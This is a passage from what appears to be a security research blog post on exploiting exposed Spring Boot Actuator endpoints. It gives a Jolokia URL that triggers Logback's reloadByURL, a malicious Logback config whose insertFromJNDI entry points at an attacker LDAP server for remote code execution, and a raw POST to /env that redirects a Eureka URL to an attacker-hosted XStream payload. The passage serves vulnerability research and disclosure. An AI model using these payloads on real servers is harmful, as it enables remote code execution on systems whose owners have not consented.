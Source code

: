 Again, most of the MBeans actions just reveal some system data, but one is particularly interesting:

![reloadByURL](https://www.veracode.com/sites/default/files/exploiting\_spring\_boot\_actuators\_jolokia.png)

The '**reloadByURL**' action, provided by the Logback library, allows us to reload the logging config from an external URL. It could be triggered just by navigating to:[**http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml**](https://www.veracode.com/blog/research/exploiting-spring-boot-actuators#)

So, why should we care about logging config? Mainly because of two things:

1. Config has an XML format, and of course, Logback parses it with External Entities enabled, hence it is vulnerable to blind XXE.
2. The Logback config has the feature ['Obtaining variables from JNDI'](https://logback.qos.ch/manual/configuration.html#insertFromJNDI). In the XML file, we can include a tag like '**\<insertFromJNDI env-entry-name="java:comp/env/appName" as="appName" />**' and the name attribute will be passed to the DirContext.lookup() method. If we can supply an arbitrary name into the .lookup() function, we don't even need XXE or HeapDump because it gives us a full **Remote Code Execution**.

**How it works:**

1\. An attacker requests the aforementioned URL to execute the 'reloadByURL' function, provided by the 'qos.logback.classic.jmx.JMXConfigurator' class.

2\. The 'reloadByURL' function downloads a new config from [http://artsploit.com/logback.xml](http://artsploit.com/logback.xml) and parses it as a Logback config. This malicious config should have the following content:

```
<configuration>
  <insertFromJNDI env-entry-name="ldap://artsploit.com:1389/jndi" as="appName" />
</configuration>
```

3\. When this file is parsed on the vulnerable server, it creates a connection to the attacker-controlled LDAP server specified in the “env-entry-name” parameter value, which leads to JNDI resolution. The malicious LDAP server may return an object with 'Reference' type to trigger an **execution of the supplied bytecode** on the target application. JNDI attacks are well explained in this [MicroFocus research paper](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE-wp.pdf). The [new JNDI exploitation technique](https://www.veracode.com/blog/research/exploiting-jndi-injections-java) (described previously in our blog) also works here, as Tomcat is the default application server in the Spring Boot Framework.

**2. Config modification via '/env'**

If Spring Cloud Libraries are in the classpath, the **'/env'** endpoint allows you to modify the Spring environmental properties. All beans annotated as '**@ConfigurationProperties**' may be modified and rebinded. Many, but not all, properties we can control are listed on the '/configprops' actuator endpoint. Actually, there are tons of them, but it is absolutely not clear what we need to modify to achieve something. After spending a couple of days playing with them we found this:

```
POST /env HTTP/1.1
Host: 127.0.0.1:8090
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
 
eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
```
